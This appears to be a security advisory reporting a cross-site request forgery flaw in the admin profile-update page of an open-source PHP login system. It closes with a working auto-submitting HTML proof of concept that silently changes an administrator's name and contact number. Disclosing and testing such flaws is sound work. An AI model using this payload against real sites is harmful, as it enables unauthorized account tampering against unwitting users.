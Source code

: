 # Vulnerability Report: CSRF in Profile Update


## Vulnerability ID: 2025-10-04 - CSRF-Profile-Update (High)


### Impact
Cross-Site Request Forgery (CSRF) vulnerabilities allow an attacker to perform unauthorized actions on behalf of an authenticated user without their consent. In this case, an attacker can change sensitive user profile details such as **first name, last name, and contact number**, potentially leading to impersonation, fraud, or account confusion.


### Likelihood
High — The profile update endpoint does not implement CSRF protection mechanisms such as anti-CSRF tokens, and there is no evidence of SameSite cookie restrictions or Referer/Origin validation. An attacker can craft a simple HTML page that triggers the update when visited by an authenticated user.


### Risk Level
**High** — Profile-tampering can be used for social-engineering, account takeover workflows, or to hide or disrupt user access.


### Found In
`https://192.168.31.97/User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1`


### Vulnerability Description
Web applications must ensure that state-changing requests are intentionally initiated by their legitimate users. However, during the security review, it was found that the profile update endpoint (`edit-profile.php`) accepts POST requests that modify user profile details without validating an anti-CSRF token or checking the Origin/Referer headers. The server responds with a successful update message and redirects to the user management page. This lack of CSRF protection increases the attack surface and allows a remote attacker to force authenticated administrators or users visiting a malicious page to update profile data silently.


### Proof of Concept (PoC)
The following PoC demonstrates how an attacker can change the contact number to `1111111111`. Host this HTML and lure an authenticated user (admin) to visit it. The form auto-submits and updates the profile for `uid=1`.


**PoC HTML (also included in `poc/csrf_profile_update.html`):**


```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<form action="https://192.168.31.97/User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1" method="POST">
<input type="hidden" name="fname" value="Rahul" />
<input type="hidden" name="lname" value="Kumarrr" />
<input type="hidden" name="contact" value="1111111111" />
<input type="hidden" name="update" value="" />
<input type="submit" value="Submit request" />
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>

